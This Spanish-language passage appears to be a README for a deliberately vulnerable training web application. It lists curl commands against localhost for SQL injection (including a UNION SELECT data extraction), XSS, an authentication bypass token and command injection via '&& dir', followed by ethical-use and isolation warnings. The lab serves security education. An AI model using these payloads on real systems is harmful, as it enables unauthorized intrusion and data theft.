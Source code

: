 ### Fase 3: Vulnerability Assessment
```bash
# Testing SQL Injection
curl -X GET "http://localhost:5000/api/Vulnerable/user/1' OR '1'='1"

# Testing XSS
curl -X GET "http://localhost:5000/api/Vulnerable/search?query=<script>alert('XSS')</script>"

# Testing Authentication Bypass
curl -X GET "http://localhost:5000/api/Vulnerable/admin/secrets?token=admin_1_1640995200"
```

### Fase 4: Exploitation
```bash
# SQL Injection para extracción de datos
curl -X GET "http://localhost:5000/api/Vulnerable/user/999 UNION SELECT Id,Title,Content,1 FROM SecretData--"

# Command Injection
curl -X POST http://localhost:5000/api/Vulnerable/ping \
  -H "Content-Type: application/json" \
  -d '{"host":"127.0.0.1 && dir"}'
```

## ⚠️ CONSIDERACIONES DE SEGURIDAD

### **Uso Ético y Legal**
- Esta aplicación es INTENCIONALMENTE vulnerable
- SOLO usar en entornos controlados y autorizados
- NO desplegar en redes de producción
- NO usar técnicas aprendidas contra sistemas sin autorización explícita

### **Aislamiento de Red**
- Ejecutar en máquinas virtuales aisladas
- Usar redes privadas para testing
- Desconectar de internet si es necesario

### **Documentación de Actividades**
- Registrar todas las pruebas realizadas
- Documentar hallazgos y evidencias
- Mantener logs para auditoría

## 📖 CASOS DE USO EMPRESARIALES

### **Evaluación de Seguridad Pre-Producción**
- Identificar vulnerabilidades antes del despliegue
- Validar efectividad de controles de seguridad
- Cumplir requerimientos de compliance
